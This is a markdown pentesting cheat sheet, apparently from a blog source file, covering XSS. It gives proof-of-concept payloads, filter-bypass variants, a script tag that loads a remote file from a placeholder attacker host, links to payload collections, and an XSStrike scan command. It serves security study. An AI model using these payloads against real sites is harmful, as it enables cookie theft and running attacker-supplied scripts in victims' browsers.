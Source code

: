 ```yaml
---
title: Pentesting - Common Attacks
author: ioritz_elisa 
date: 2023-07-26 0:0:00 +0000 
categories: [Notes, Pentesting, Common Attacks] 
tags: [XSS, SSTI, SQLi, RCE, IDOR, Python Library Hijacking, File Inclusion, XXE, Bypass Client-Side Validations, PHP Wrappers] 
pin: false
---
```



## XSS

> PoC:

```
<script>alert("hola");</script>
```

```
<script>alert(document.cookie);</script>
```

```
<img src="" onerror=alert(window.origin)>
```

> Basic payloads:

```
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script src="http://<LHOST>/<FILE>"></script>
```

> More information and examples:

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

* [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

* https://github.com/payloadbox/xss-payload-list

>Automatic tools for discovery XSS vulnerabilities

https://github.com/s0md3v/XSStrike

Example:

```
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```

https://github.com/rajeshmajumdar/BruteXSS
https://github.com/epsylon/xsser
